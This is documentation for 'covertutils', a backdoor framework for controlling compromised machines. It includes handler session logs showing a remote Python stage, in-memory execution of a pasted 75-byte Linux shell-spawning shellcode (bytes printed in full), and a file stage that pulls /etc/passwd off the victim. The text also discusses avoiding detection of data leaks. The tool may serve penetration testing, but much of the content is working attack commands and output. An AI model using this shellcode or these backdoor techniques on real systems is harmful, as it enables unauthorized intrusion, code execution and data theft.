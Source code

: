 
.. _stages_page:

Beyond the OS Shell
===================

The `covertutils` package has an API for creating custom stages that can be dynamically loaded to compromised machines.
If a :class:`covertutils.handlers.stageable.StageableHandler` is running in a pwned machine stages can be pushed to it.

The API is fully documented in the :ref:`stage_api_page` page.



.. _pythonapi-stage:

The `Python` Stage
------------------

A Python shell with access to all internals is available.

The sent code runs directly in the `covertutils stage API`,
so it is able to access the ``storage`` and ``storage['COMMON']`` dictionaries and change internals objects at runtime.

.. code:: bash

	(127.0.0.1:49550)>
	(127.0.0.1:49550)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[99] - EXIT
	Select stream: 1
	[python] >>>
	[python] >>> print "Python module with access to the Stager API"
	[python] >>> Python module with access to the Stager API


	[python] >>> @
	No special command specified!
	Available special commands:
		@clear
		@show
		@storage
		@send
		@pyload
	[python] >>> @storage

	[python] >>> {'COMMON': {'handler': <covertutils.handlers.impl.standardshell.StandardShellHandler object at 0x7f6d472c9490>},
	 'on': True,
	 'queue': <Queue.Queue instance at 0x7f6d47066b90>}

	[python] >>> if "indentation is found" :
	[python] ...     print "The whole code block gets transmitted!"
	[python] ...
	[python] >>> The whole code block gets transmitted!

	[python] >>>
	[python] >>> print "@pyload command loads python files"
	[python] >>> @pyload command loads python files

	[python] >>> @pyload /tmp/pycode.py
	Buffer cleared!
	File '/tmp/pycode.py' loaded!
	[python] >>> @show
	====================
	print "This code exists in a file"

	====================
	[python] >>>
	[python] >>> This code exists in a file

	[python] >>>
	(127.0.0.1:49550)>






The `Shellcode` Stages
----------------------

When one can directly run stuff in a process, why not run some `shellcode` too?

And do it **directly from memory** please!

Runnning `shellcode` requires the following things:

 - Acquiring the shellcode!
 - Copying it to memory, to a known memory location
 - Making that location executable at runtime
 - ``jmp`` ing to that location

So `covertutils` has 2 `stages` that utilize ``ctypes`` built-in package to do the right things and finally run `shellcode`!
They are located under :mod:`covertutils.payloads.linux.shellcode` and :mod:`covertutils.payloads.windows.shellcode`.

A `SubShell` is also available that translates copy-pasted `shellcodes` from various sources to raw data, before sending them over to a poor `Agent`.


.. code:: bash

	(127.0.0.1:51038)> !stage mload covertutils.payloads.linux.shellcode
	 shellcode

	(127.0.0.1:51038)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - shellcode
		[ 4] - stage
		[99] - EXIT
	Select stream: 3
	This shell will properly format shellcode
		pasted from sources like "exploit-db.com" and "msfvenom"
	[shellcode]>
	[shellcode]>
	[shellcode]> unsigned char code[]= \

	Type 'GO' when done pasting...
	[shellcode]> "\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"

	Type 'GO' when done pasting...
	[shellcode]> "\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"

	Type 'GO' when done pasting...
	[shellcode]> "\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"

	Type 'GO' when done pasting...
	[shellcode]> "\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"

	Type 'GO' when done pasting...
	[shellcode]> "\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";

	Type 'GO' when done pasting...
	[shellcode]>
	[shellcode]> GO

	Type 'GO' when done pasting...
	====================
	Pasted lines:
	unsigned char code[]= \
	"\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"
	"\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"
	"\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"
	"\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"
	"\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";


	Length of 75 bytes

	Shellcode in HEX :
	6a6658995343536a0289e1cd805b5e526668115c526a026a10515089e1b066cd80894104b304b066cd8043b066cd809359b03fcd804979f9682f2f7368682f62696e89e35089e1b00bcd80

	Shellcode in BINARY :
	jfX�SCSj��̀[^Rfh\RjjQP���f̀�A��f̀C�f̀�Y�?̀Iy�h//shh/bin��P���

	====================
	Send the shellcode over? [y/N] y
	[shellcode]>

* The `shellcode` used in the demo is taken from https://www.exploit-db.com/exploits/42254/


Oh, and on more thing! `Shellcodes` do no need to be `Null Free` (of course!). The string termination is on Python, and they are transmitted **encrypted by design** anyway.



The `File` Stage
------------------

What good is a backdoor if you can't use it to **leak files**? Or even upload executables and that kind of stuff.

Actually, after the first smile when the pure `netcat reverse shell oneliner` returns, doing stuff with it becomes a pain really fast.
And the next step is trying to ``wget`` stuff with the non-tty shell, or copy-pasting `Base64 encoded` files from the screen.

Miserable things happen when there aren't specific commands for file upload/download to the compromised system. And out-of-band methods (`pastebin`, `wget`, etc) can easily be identified as abnormal...

The `covertutils` package has a `file` stage and subshell, to provide file transfers from the `Agent` to the `Handler` and vice-versa in an in-band manner (using the same `Communication Channel`).

.. code:: bash

	(127.0.0.1:56402)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - file
		[ 4] - stage
		[99] - EXIT
	Select stream: 3
	=|file]> ~ help download
	download <remote-file> [<location>]

	=|file]> ~
	=|file]> ~ download /etc/passwd
	=|file]> ~ File downloaded!

	=|file]> ~ download /etc/passwd renamed.txt
	=|file]> ~ File downloaded!

	=|file]> ~ help upload
	upload  <local-file> [<remote-location>]

	=|file]> ~
	=|file]> ~ upload /etc/passwd myusers
	=|file]> ~ File uploaded succesfully!

	=|file]> ~
	=|file]> ~ upload /etc/passwd
	=|file]> ~ File uploaded succesfully!


.. warning:: Providing file transfer `in-band` is a double-edged knife.
If the `Communication Channel` is a TCP connection then files will flow around nicely (taking also advantage of the embedded compression, see: :ref:`compressor_component` ).
But if the `Communication Channel` is a `covert TCP backdoor` or such `super-low-bandwidth` channel, a 1MB file will `take forever to download`, taking over the whole channel. An out-of-band approach should be considered in this case.

.. warning:: Transfer of files can trigger the :class:`StreamIdentifier`'s `Birthday Problem` (TODO: document it) destroying 1 or more `streams` (the `control stream` should still work to ``!control reset`` the connection). For heavy use of file transferring, a bigger ``tag_length`` should be used on the :class:`Orchestrator` passed to the :class:`Handler` object.
